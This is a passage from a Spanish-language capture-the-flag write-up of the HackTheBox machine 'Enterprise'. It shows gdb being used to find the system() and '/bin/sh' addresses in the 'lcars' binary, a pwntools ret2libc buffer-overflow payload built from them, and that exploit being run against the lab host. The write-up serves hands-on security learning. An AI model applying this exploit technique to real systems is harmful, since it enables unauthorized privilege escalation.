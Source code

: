 <img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/enterprise/112sad_ok.gif" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 60%;"/>

Jmmm, dando unas vueltas cai en cuenta que el programa está tomando **nuestras** direcciones en memoria, o sea con las que interactúa el programa en **nuestro sistema**, tiene sentido que no sirva, ya que esas **direcciones** probablemente no sean las mismas que usa el programa en la máquina víctima... Juguemos con ella (ya que tiene **gdb**) para extraer las direcciones en memoria y validar si ese es el error:

```bash
www-data@enterprise:/bin$ gdb ./lcars -q
Reading symbols from ./lcars...(no debugging symbols found)...done.
(gdb)
```

Para obtener todos los valores necesitamos que el programa se ejecute y tenga un **breakpoint** (este para obtener "/bin/sh"), asi que hacemos todo el recorrido (código > 4 > cadena en el apartado *seguridad*) y ahí si jugamos:

```bash
...
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e4c060 <system>
(gdb) find 0xf7e4c060,+87654321,"/bin/sh"
warning: Unable to access 16000 bytes of target memory at 0xf7f55a67, halting search.
Pattern not found.
(gdb) b main
Breakpoint 1 at 0x56555ca0
(gdb) r
Starting program: /bin/lcars 

Breakpoint 1, 0x56555ca0 in main ()
(gdb) find 0xf7e4c060,+87654321,"/bin/sh"
0xf7f70a0f
warning: Unable to access 16000 bytes of target memory at 0xf7fca797, halting search.
1 pattern found.
(gdb) 
```

Bien, ya tenemos los 2 valores:

* `system()`: `0xf7e4c060`.
* `/bin/sh`: `0xf7f70a0f`.

Agreguémoslos al script y ejecutemos :O

```py
...
payload = ("A"*212).encode() # Pasamos la cadena a bytes para poder concatenarla
payload += p32(0xf7e4c060, endian='little') # System
payload += ("B"*4).encode() # + basurita
payload += p32(0xf7f70a0f, endian='little') # /bin/sh
...
```

```bash
❭ python3 exploit.py ./lcars REMOTE
[*] '/htb/enterprise/scripts/lcars'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
[+] Opening connection to 10.10.10.61 on port 32812: Done
[*] Switching to interactive mode

[*] Got EOF while reading in interactive
$ id
```